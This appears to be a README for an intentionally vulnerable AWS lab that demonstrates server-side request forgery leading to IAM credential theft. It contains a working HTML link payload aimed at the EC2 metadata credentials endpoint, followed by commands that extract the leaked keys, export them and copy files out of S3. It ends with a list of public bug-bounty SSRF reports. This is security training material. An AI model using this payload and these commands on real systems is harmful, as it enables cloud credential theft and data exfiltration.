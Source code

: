 # SSRF to IAM


SSRF flaws occur whenever a web application is fetching a remote resource without validating the user-supplied URL. It allows an attacker to coerce the application to send a crafted request to an unexpected destination, even when protected by a firewall, VPN, or another type of network access control list (ACL).
As modern web applications provide end-users with convenient features, fetching a URL becomes a common scenario. As a result, the incidence of SSRF is increasing. Also, the severity of SSRF is becoming higher due to cloud services and the complexity of architectures.

## Owasp

https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/

https://owasp.org/www-community/attacks/Server_Side_Request_Forgery


## Setup



Step 1 : Terraform Build 

        terraform init
        terraform apply -auto-approve

Issue about role and policy 

![Getting Started](3.png)
![Getting Started](2.png)



Step 2 : On Aws 

        http://ec2-x-x-x-x.us-west-2.compute.amazonaws.com:3000/genpdf

## Payload 

Step 3 : 

        <link rel=attachment href="http://169.254.169.254/latest/meta-data/iam/security-credentials">

        <link rel=attachment href="http://169.254.169.254/latest/meta-data/iam/security-credentials/ssrf_role">

Step 4 : 

        binwalk -e <filename>.pdf
        export AWS_ACCESS_KEY_ID=<copied AccessKeyId>
        export AWS_SECRET_ACCESS_KEY=<copied SecretAccessKey>
        export AWS_SESSION_TOKEN=<copied SessionToken>

Step 5 : privilege escalation on ec2

        aws s3 ls
        aws s3 ls s3://<ssrf-bucket-name>
        aws s3 cp s3://<ssrf-bucket-name>/creditcardnumbers.txt stealcreditcard.txt
        aws s3 cp s3://<ssrf-bucket-name>/mamad.png m.png



1 . Signup With Payload

     <link rel=attachment href="http://169.254.169.254/latest/meta-data/iam/security-credentials">

2 . Login


3 . Generate PDF

![Getting Started](31.png)


4 . Using binwalk

![Getting Started](32.png)

![Getting Started](40.png)



## Fix Guide :  

![Getting Started](4.png)


## Twitter & Facebook Contributor :
   
 https://www.linkedin.com/in/mohammad-hussein-namadi-775baa131/
 


## Report Example

1. [My Expense Report resulted in a Server-Side Request Forgery (SSRF) on Lyft](https://hackerone.com/reports/885975) to Lyft - 587 upvotes, $0
2. [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876) to Shopify - 507 upvotes, $25000
3. [Server Side Request Forgery (SSRF) at app.hellosign.com leads to AWS private keys disclosure](https://hackerone.com/reports/923132) to Dropbox - 357 upvotes, $4913
4. [Server-Side Request Forgery using Javascript allows to exfill data from Google Metadata](https://hackerone.com/reports/530974) to Snapchat - 344 upvotes, $4000
5. [SSRF & LFR via on city-mobil.ru](https://hackerone.com/reports/748123) to Mail.ru - 338 upvotes, $6000
6. [SSRF on project import via the remote_attachment_url on a Note](https://hackerone.com/reports/826361) to GitLab - 337 upvotes, $10000
7. [Server Side Request Forgery mitigation bypass](https://hackerone.com/reports/632101) to GitLab - 330 upvotes, $3500
8. [SSRF on fleet.city-mobil.ru leads to local file read](https://hackerone.com/reports/748069) to Mail.ru - 272 upvotes, $6000
9. [SSRF  leaking internal google cloud data through upload function [SSH Keys, etc..]](https://hackerone.com/reports/549882) to Vimeo - 242 upvotes, $5000
10. [SSRF & LFR on city-mobil.ru](https://hackerone.com/reports/748128) to Mail.ru - 237 upvotes, $6000
11. [Unsafe charts embedding implementation leads to cross-account stored XSS and SSRF](https://hackerone.com/reports/708589) to New Relic - 222 upvotes, $2500
12. [Unauthenticated blind SSRF in OAuth Jira authorization controller](https://hackerone.com/reports/398799) to GitLab - 216 upvotes, $4000
13. [Full read SSRF in www.evernote.com that can leak aws metadata and local file inclusion](https://hackerone.com/reports/1189367) to Evernote - 215 upvotes, $5000
14. [Unauthenticated SSRF in jira.tochka.com leading to RCE in confluence.bank24.int](https://hackerone.com/reports/713900) to QIWI - 213 upvotes, $1000
15. [Full Read SSRF on Gitlab's Internal Grafana](https://hackerone.com/reports/878779) to GitLab - 200 upvotes, $12000
16. [Full Response SSRF via Google Drive](https://hackerone.com/reports/1406938) to Dropbox - 197 upvotes, $17576
17. [SSRF in webhooks leads to AWS private keys disclosure](https://hackerone.com/reports/508459) to Omise - 190 upvotes, $700
18. [Stored XSS & SSRF in Lark Docs](https://hackerone.com/reports/892049) to Lark Technologies - 168 upvotes, $3000
19. [SSRF on duckduckgo.com/iu/](https://hackerone.com/reports/398641) to DuckDuckGo - 155 upvotes, $0
20. [Server Side Request Forgery](https://hackerone.com/reports/644238) to Lark Technologies - 153 upvotes, $1500
21. [External SSRF and Local File Read via video upload due to vulnerable FFmpeg HLS processing](https://hackerone.com/reports/1062888) to TikTok - 137 upvotes, $2727
22. [SSRF in clients.city-mobil.ru](https://hackerone.com/reports/712103) to Mail.ru - 132 upvotes, $1500
23. [Blind SSRF on errors.hackerone.net due to Sentry misconfiguration](https://hackerone.com/reports/374737) to HackerOne - 130 upvotes, $3500
24. [SSRF in filtering on relap.io](https://hackerone.com/reports/739962) to Mail.ru - 129 upvotes, $1700
25. [SSRF chained to hit internal host leading to another SSRF which allows to read internal images.](https://hackerone.com/reports/826097) to PlayStation - 129 upvotes, $1000
26. [SSRF on music.line.me through getXML.php](https://hackerone.com/reports/746024) to LINE - 128 upvotes, $4500
27. [SSRF In Get Video Contents](https://hackerone.com/reports/643622) to Semrush - 114 upvotes, $500
28. [XXE Injection through SVG image upload leads to SSRF](https://hackerone.com/reports/897244) to Zivver - 110 upvotes, $0
29. [[city-mobil.ru] SSRF & limited LFR on /taxiserv/photoeditor/save endpoint via base64 POST parameter](https://hackerone.com/reports/853068) to Mail.ru - 94 upvotes, $6000
30. [SSRF on image renderer](https://hackerone.com/reports/811136) to PlayStation - 92 upvotes, $1000
31. [Full read SSRF via Lark Docs `import as docs` feature ](https://hackerone.com/reports/1409727) to Lark Technologies - 91 upvotes, $5000
32. [Blind SSRF in horizon-heat](https://hackerone.com/reports/893856) to Mail.ru - 91 upvotes, $2500
33. [SSRF in api.slack.com, using slash commands and bypassing the protections.](https://hackerone.com/reports/381129) to Slack - 78 upvotes, $500
34. [SSRF and LFI in site-audit tool](https://hackerone.com/reports/794099) to Semrush - 77 upvotes, $2000
35. [SSRF на https://qiwi.com с помощью "Prerender HAR Capturer"](https://hackerone.com/reports/1153862) to QIWI - 76 upvotes, $1500
36. [Blind SSRF in emblem editor (2)](https://hackerone.com/reports/265050) to Rockstar Games - 72 upvotes, $1500
37. [SSRF in CI after first run](https://hackerone.com/reports/369451) to GitLab - 69 upvotes, $3000
38. [LFI and SSRF via XXE in emblem editor](https://hackerone.com/reports/347139) to Rockstar Games - 68 upvotes, $1500
39. [Sending Emails from  DNSDumpster - Server-Side Request Forgery to Internal SMTP Access](https://hackerone.com/reports/392859) to Hacker Target - 68 upvotes, $0
40. [SVG Server Side Request Forgery (SSRF)](https://hackerone.com/reports/223203) to Shopify - 65 upvotes, $500
41. [Blind SSRF on debug.nordvpn.com due to misconfigured sentry instance](https://hackerone.com/reports/756149) to Nord Security - 63 upvotes, $100
42. [GitLab::UrlBlocker validation bypass leading to full Server Side Request Forgery](https://hackerone.com/reports/541169) to GitLab - 62 upvotes, $5000
43. [[SSRF] Server-Side Request Forgery at https://sea-web.gold.razer.com/dev/simulator via notify_url Parameter](https://hackerone.com/reports/777664) to Razer - 60 upvotes, $2000
44. [SSRF and local file disclosure by video upload on https://www.redtube.com/upload](https://hackerone.com/reports/570537) to Redtube - 60 upvotes, $500
45. [Blind SSRF on https://labs.data.gov/dashboard/Campaign/json_status/ Endpoint](https://hackerone.com/reports/895696) to GSA Bounty - 58 upvotes, $300
46. [SSRF with information disclosure](https://hackerone.com/reports/810401) to Lark Technologies - 57 upvotes, $550
47. [SSRF and local file disclosure in https://wordpress.com/media/videos/ via FFmpeg HLS processing](https://hackerone.com/reports/237381) to Automattic - 56 upvotes, $800
48. [Blind SSRF in magnum upgrade_params](https://hackerone.com/reports/907819) to Mail.ru - 54 upvotes, $2500
49. [[tanks.mail.ru] SSRF + Кража cookie ](https://hackerone.com/reports/1166943) to Mail.ru - 54 upvotes, $750
50. [SSRF and local file disclosure by video upload on https://www.tube8.com/](https://hackerone.com/reports/574133) to Tube8 - 53 upvotes, $500
51. [Get-based SSRF limited to HTTP protocol on https://resizer.line-apps.com/form](https://hackerone.com/reports/707014) to LINE - 50 upvotes, $1350
52. [FogBugz import attachment full SSRF requiring vulnerability in *.fogbugz.com](https://hackerone.com/reports/1092230) to GitLab - 49 upvotes, $6000
53. [SSRF - Unchecked Snippet IDs for distributed files](https://hackerone.com/reports/997926) to Open-Xchange - 49 upvotes, $1500
54. [BLIND SSRF ON http://jsgames.mail.ru via avaOp parameter ](https://hackerone.com/reports/1043801) to Mail.ru - 49 upvotes, $1200

